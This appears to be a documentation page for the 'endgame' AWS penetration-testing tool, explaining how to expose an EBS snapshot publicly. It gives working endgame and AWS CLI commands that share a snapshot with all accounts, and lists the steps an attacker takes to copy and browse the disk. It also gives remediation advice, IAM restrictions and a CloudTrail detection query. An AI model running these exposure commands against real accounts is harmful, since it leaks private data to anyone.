 # EBS Snapshot Exposure

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=*
export SNAPSHOT_ID=snap-1234567890abcdef0

endgame expose --service ebs --name $SNAPSHOT_ID
```

* To expose the resource using the AWS CLI, run the following from the victim account:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 modify-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission \
    --operation-type add \
    --group-names all
```

* To verify that the snapshot has been shared with the public, run the following from the victim account:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 describe-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission
```

* Observe that the contents match the example shown below.

## Example

The response of `aws ec2 describe-snapshot-attribute` will match the below, indicating that the EBS snapshot is public.

```json
{
    "SnapshotId": "snap-066877671789bd71b",
    "CreateVolumePermissions": [
        {
            "Group": "all"
        }
    ]
}
```

## Exploitation

After an EBS Snapshot is made public, an attacker can then:
* [copy the public snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html) to their own account
* Use the snapshot to create an EBS volume
* Attach the EBS volume to their own EC2 instance and browse the contents of the disk, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Encrypt all Snapshots with Customer-Managed Keys**: Follow the encryption-related recommendations in the [Prevention Guide](https://endgame.readthedocs.io/en/latest/prevention/#use-aws-kms-customer-managed-keys)
* **Trusted Accounts Only**: Ensure that EBS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the EBS Snapshot.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your EBS Snapshots**: Tightly control access to the following IAM actions:
      - [ec2:ModifySnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_ModifySnapshotAttribute.html): _Grants permission to add or remove permission settings for a snapshot_
      - [ec2:DescribeSnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshotAttribute.html): _Grants permission to describe an attribute of a snapshot. This includes information on which accounts the snapshot has been shared with._
      - [ec2:DescribeSnapshots](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshots.html): _Grants permission to describe one or more EBS snapshots_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='ec2.amazonaws.com' and (eventName='ModifySnapshotAttribute' and requestParameters.attributeType='CREATE_VOLUME_PERMISSION') 
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [Sharing an Unencrypted Snapshot using the Console](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html#share-unencrypted-snapshot)
* [Share a snapshot using the command line](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html)
* [aws ec2 copy-snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html)